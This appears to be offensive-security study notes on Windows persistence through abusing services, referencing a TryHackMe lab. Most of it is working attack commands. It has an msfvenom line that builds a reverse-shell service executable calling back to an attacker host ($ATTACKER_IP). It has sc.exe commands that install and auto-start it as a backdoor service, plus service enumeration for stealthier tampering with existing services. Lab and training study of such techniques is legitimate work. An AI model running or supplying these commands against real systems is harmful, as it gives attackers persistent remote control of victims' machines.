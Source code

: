# Windows Persistence - Abusing Services

Windows services offer a great way to establish persistence since they can be configured to run in the background whenever the victim machine is started. If we can leverage any service to run something for us, we can regain control of the victim machine each time it is started.

## Creating backdoor services

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$ATTACKER_IP LPORT=$LPORT -f exe-service -o rev-svc.exe
```

```powershell
sc.exe create <servicename> binPath= "C:\Windows\rev-svc.exe" start= auto
sc.exe start <servicename>
```

## Modifying Existing services

More stealthy as service creation may be monitored across network.

```powershell
sc.exe query state=all
sc.exe qc $target-service
```


## References

[THM Persistence Room](https://tryhackme.com/room/windowslocalpersistence)